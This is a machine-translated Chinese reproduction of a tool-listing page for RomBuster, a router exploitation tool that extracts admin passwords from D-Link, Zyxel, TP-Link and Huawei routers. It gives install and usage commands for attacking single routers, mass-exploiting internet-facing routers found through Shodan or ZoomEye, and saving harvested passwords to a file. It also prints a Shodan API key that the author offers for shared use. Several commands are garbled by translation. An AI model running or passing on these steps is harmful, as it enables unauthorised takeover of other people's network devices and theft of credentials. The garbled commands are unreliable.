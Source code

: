 # RomBuster:一个允许泄露网络路由器管理员密码的路由器利用工具

> 原文：<https://kalilinuxtutorials.com/rombuster/>

[![RomBuster : A Router Exploitation Tool That Allows To Disclosure Network Router Admin Password](img/2b9e0b82dd5f2bec13692e3c35bec940.png "RomBuster : A Router Exploitation Tool That Allows To Disclosure Network Router Admin Password")](https://1.bp.blogspot.com/-PPxjXw-KVwU/YN7ovkXAfcI/AAAAAAAAJyY/208H4-PBEL4giR5f4wc97g99CW0B7VQ3gCLcBGAsYHQ/s728/RomBuster.png)

RomBuster 是一个路由器利用工具，允许泄露网络路由器管理员密码。

**特性**

*   利用最流行的路由器中的漏洞，如`D-Link`、`Zyxel`、`TP-Link`和`Huawei`。
*   经过优化，可同时利用列表中的多个路由器。
*   简单的 CLI 和 API 用法。

**安装**

**pip3 安装 git+https://github . com/enty sec/RomBuster**

**基本用法**

要使用 RomBuster，只需在终端中输入 **`rombuster`** 。

**用法:RomBuster[-h][-o OUTPUT][-I INPUT][-a ADDRESS][–shod an shod an]
[–zoo meye zoo meye][-p PAGES]
RomBuster 是一款路由器利用工具，允许泄露网络
路由器管理员密码。
可选参数:
-h，–help 显示此帮助信息并退出
-o OUTPUT，–OUTPUT OUTPUT
将结果输出到文件。
-i 输入，–INPUT 输入
输入文件的地址。
-一个地址，–地址地址
单个地址。
–SHODAN SHODAN SHODAN API 密钥，用于通过互联网利用设备。
–zoo meye zoo meye zoo meye 用于通过互联网利用设备的 API 密钥。
-p PAGES，–PAGES PAGES
你想从 ZoomEye 获取的页数。**

**例题**

**利用单路由器**

让我们黑我的路由器，只是为了好玩。

192.168.99.1

**利用互联网上的路由器**

让我们尝试使用 Shodan 搜索引擎来开发互联网上的路由器。

**分手——shodan PSK t1 gyxggecyz 2191 h2jos 9 qvgd**

**注:**给出的 Shodan API key ( `PSKINdQe1GyxGgecYz2191H2JoS9qvgD`)是我的 PRO API key，你可以使用这个 key 或者你自己的，可以自由使用我们所有的资源免费。

**从输入文件中利用路由器**

让我们试着使用开放的路由器数据库。

**rombuster-I routers . txt-o passwords . txt**

**注意:**会根据地址利用`**routers.txt**`列表中的所有路由器，并将获得的所有密码保存到 **`passwords.txt`。**

**API 使用**

RomBuster 也有自己的 Python API，可以通过将 RomBuster 导入到您的代码中来调用。

**从 rombuster 导入 RomBuster**

**基本功能**

有所有 RomBuster 的基本功能，可以用来利用特定的路由器。

`**exploit(address)**`–通过给定地址利用单个路由器。

**例题**

**利用单路由器**

**从 rombuster 导入 RomBuster
RomBuster = RomBuster()
creds = RomBuster . exploit(' 192 . 168 . 99 . 100 ')
print(creds)**

[**Download**](https://github.com/EntySec/RomBuster#features)